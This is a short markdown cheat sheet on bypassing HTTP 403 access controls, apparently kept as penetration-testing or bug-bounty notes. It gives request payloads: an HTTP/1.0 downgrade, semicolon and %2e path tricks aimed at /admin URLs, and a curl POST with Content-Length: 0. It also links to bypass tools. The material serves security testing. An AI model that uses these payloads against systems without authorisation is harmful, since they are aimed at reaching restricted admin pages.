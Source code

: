 # 403 Forbidden Bypasses

- HTTP protocol version downgrade
- Semicolon bypass (;)
- Modify the request method and content length
- Append characters

---
### HTTP Protocol Version Downgrade

Method:
  - Capture the request in BurpSuite - Send to Repeater
  - Change the http protocol version from **1.1** to **1.0** and clear all the other headers from the request
  - Forward the request to the Server
  - Reference: [Link](https://medium.com/@abbasheybati1/403-bypass-lyncdiscover-microsoft-com-db2778458c33)
---
### Semicolon Bypass (;)

Method:
Blocked (403 Forbidden):
```CSS
https://www.hackme.in/admin
```
Bypassed (200 OK):
```CSS
https://www.hackme.in/;/admin
https://www.hackme.in/;/admin/config/listConfiguration
```
---
### Modify the Request Method and Content Length

Method:
  - GET => POST
	- Content-Length: 0
```
curl -X POST https://domain.com/admin -H "Content-Length: 0"
```
---
### Append Characters

Method:
  - Append `%2e` before the directory/ file name

Blocked (403 Forbidden):
```
https://domain.com/admin
```
Bypassed (200 OK):
```
https://domain.com/%2e/admin
```
---




#### Tools:
- https://github.com/lobuhi/byp4xx
- https://github.com/iamj0ker/bypass-403
- https://github.com/gotr00t0day/forbiddenpass
- https://github.com/yunemse48/403bypasser
- https://github.com/Dheerajmadhukar/4-ZERO-3

#### References:
- https://kathan19.gitbook.io/howtohunt/status-code-bypass/403bypass
